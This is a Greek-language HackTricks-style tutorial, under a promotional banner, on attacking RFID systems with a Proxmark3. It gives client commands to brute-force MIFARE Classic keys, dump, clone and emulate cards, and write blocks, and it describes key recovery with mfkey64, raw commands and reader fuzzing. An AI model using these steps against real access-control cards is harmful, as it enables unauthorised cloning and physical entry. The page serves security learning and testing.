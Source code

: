 # Proxmark 3

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks AWS)</strong></a><strong>!</strong></summary>

* Εργάζεστε σε μια **εταιρεία κυβερνοασφάλειας**; Θέλετε να δείτε τη **εταιρεία σας διαφημισμένη στο HackTricks**; ή θέλετε να έχετε πρόσβαση στη **τελευταία έκδοση του PEASS ή να κατεβάσετε το HackTricks σε PDF**; Ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Ανακαλύψτε την [**Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Εγγραφείτε στην** [**💬**](https://emojipedia.org/speech-balloon/) [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** με στο **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στο** [**αποθετήριο hacktricks**](https://github.com/carlospolop/hacktricks) **και** [**αποθετήριο hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Επίθεση σε Συστήματα RFID με το Proxmark3

Το πρώτο πράγμα που χρειάζεστε είναι ένα [**Proxmark3**](https://proxmark.com) και να [**εγκαταστήσετε το λογισμικό και τις εξαρτήσεις του**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux)[**s**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux).

### Επίθεση στο MIFARE Classic 1KB

Έχει **16 τομείς**, κάθε ένας έχει **4 μπλοκ** και κάθε μπλοκ περιέχει **16B**. Το UID βρίσκεται στον τομέα 0 μπλοκ 0 (και δεν μπορεί να τροποποιηθεί).\
Για να έχετε πρόσβαση σε κάθε τομέα χρειάζεστε **2 κλειδιά** (**Α** και **Β**) τα οποία αποθηκεύονται στο **μπλοκ 3 κάθε τομέα** (τροχαίος τομέας). Ο τροχαίος τομέας αποθηκεύει επίσης τα **δείκτες πρόσβασης** που δίνουν τις άδειες **ανάγνωσης και εγγραφής** σε **κάθε μπλοκ** χρησιμοποιώντας τα 2 κλειδιά.\
Τα 2 κλειδιά είναι χρήσιμα για να δώσουν άδειες για ανάγνωση αν γνωρίζετε το πρώτο και για εγγραφή αν γνωρίζετε το δεύτερο (για παράδειγμα).

Μπορούν να πραγματοποιηθούν πολλές επιθέσεις
```bash
proxmark3> hf mf #List attacks

proxmark3> hf mf chk *1 ? t ./client/default_keys.dic #Keys bruteforce
proxmark3> hf mf fchk 1 t # Improved keys BF

proxmark3> hf mf rdbl 0 A FFFFFFFFFFFF # Read block 0 with the key
proxmark3> hf mf rdsc 0 A FFFFFFFFFFFF # Read sector 0 with the key

proxmark3> hf mf dump 1 # Dump the information of the card (using creds inside dumpkeys.bin)
proxmark3> hf mf restore # Copy data to a new card
proxmark3> hf mf eload hf-mf-B46F6F79-data # Simulate card using dump
proxmark3> hf mf sim *1 u 8c61b5b4 # Simulate card using memory

proxmark3> hf mf eset 01 000102030405060708090a0b0c0d0e0f # Write those bytes to block 1
proxmark3> hf mf eget 01 # Read block 1
proxmark3> hf mf wrbl 01 B FFFFFFFFFFFF 000102030405060708090a0b0c0d0e0f # Write to the card
```
Το Proxmark3 επιτρέπει την εκτέλεση άλλων ενεργειών όπως **ακρόαση** μιας **επικοινωνίας Tag προς Reader** για να προσπαθήσετε να βρείτε ευαίσθητα δεδομένα. Σε αυτήν την κάρτα μπορείτε απλώς να καταγράψετε την επικοινωνία και να υπολογίσετε το χρησιμοποιούμενο κλειδί επειδή οι **κρυπτογραφικές λειτουργίες που χρησιμοποιούνται είναι αδύναμες** και γνωρίζοντας το κείμενο και το κρυπτοκείμενο μπορείτε να το υπολογίσετε (εργαλείο `mfkey64`).

### Ακατέργαστες Εντολές

Τα συστήματα IoT μερικές φορές χρησιμοποιούν **μη επωνυμασμένες ή μη εμπορικές ετικέτες**. Σε αυτήν την περίπτωση, μπορείτε να χρησιμοποιήσετε το Proxmark3 για να στείλετε προσαρμοσμένες **ακατέργαστες εντολές στις ετικέτες**.
```bash
proxmark3> hf search UID : 80 55 4b 6c ATQA : 00 04
SAK : 08 [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
proprietary non iso14443-4 card found, RATS not supported
No chinese magic backdoor command detected
Prng detection: WEAK
Valid ISO14443A Tag Found - Quiting Search
```
Με αυτές τις πληροφορίες μπορείτε να προσπαθήσετε να αναζητήσετε πληροφορίες σχετικά με την κάρτα και τον τρόπο επικοινωνίας μαζί της. Το Proxmark3 επιτρέπει την αποστολή ωμών εντολών όπως: `hf 14a raw -p -b 7 26`

### Σενάρια

Το λογισμικό Proxmark3 διαθέτει μια προφορτωμένη λίστα **σεναρίων αυτοματισμού** που μπορείτε να χρησιμοποιήσετε για την εκτέλεση απλών εργασιών. Για να ανακτήσετε την πλήρη λίστα, χρησιμοποιήστε την εντολή `script list`. Στη συνέχεια, χρησιμοποιήστε την εντολή `script run`, ακολουθούμενη από το όνομα του σεναρίου:
```
proxmark3> script run mfkeys
```
Μπορείτε να δημιουργήσετε ένα σενάριο για **fuzz tag readers**, αντιγράφοντας τα δεδομένα ενός **έγκυρου κάρτ**α απλά γράψτε ένα **Lua script** που **τυχαιοποιεί** έναν ή περισσότερους τυχαίους **bytes** και ελέγξτε αν ο **αναγνώστης καταρρέει** με οποιαδήποτε επανάληψη.
